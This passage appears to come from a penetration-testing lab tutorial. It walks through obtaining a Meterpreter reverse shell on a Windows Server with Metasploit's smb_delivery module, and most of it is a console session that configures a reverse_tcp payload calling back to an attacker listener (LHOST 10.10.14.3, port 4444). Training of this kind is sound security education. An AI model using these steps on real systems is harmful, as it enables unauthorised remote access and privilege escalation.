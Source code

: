 #### Obtaining a Meterpreter Shell

From the output, we can see several missing patches. From here, let's get a Metasploit shell back on the system and attempt to escalate privileges using one of the identified CVEs. First, we need to obtain a `Meterpreter` reverse shell. We can do this several ways, but one easy way is using the `smb_delivery` module.

Windows Server

```shell-session
msf6 exploit(windows/smb/smb_delivery) > search smb_delivery

Matching Modules
================
   #  Name                              Disclosure Date  Rank       Check  Description
   -  ----                              ---------------  ----       -----  -----------
   0  exploit/windows/smb/smb_delivery  2016-07-26       excellent  No     SMB Delivery
Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/smb/smb_delivery


msf6 exploit(windows/smb/smb_delivery) > use 0

[*] Using configured payload windows/meterpreter/reverse_tcp


msf6 exploit(windows/smb/smb_delivery) > show options 

Module options (exploit/windows/smb/smb_delivery):
   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   FILE_NAME    test.dll         no        DLL file name
   FOLDER_NAME                   no        Folder name to share (Default none)
   SHARE                         no        Share (Default Random)
   SRVHOST      10.10.14.3       yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT      445              yes       The local port to listen on.
Payload options (windows/meterpreter/reverse_tcp):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.3       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
Exploit target:
   Id  Name
   --  ----
   1   PSH


msf6 exploit(windows/smb/smb_delivery) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   DLL
   1   PSH


msf6 exploit(windows/smb/smb_delivery) > set target 0

target => 0


msf6 exploit(windows/smb/smb_delivery) > exploit 
```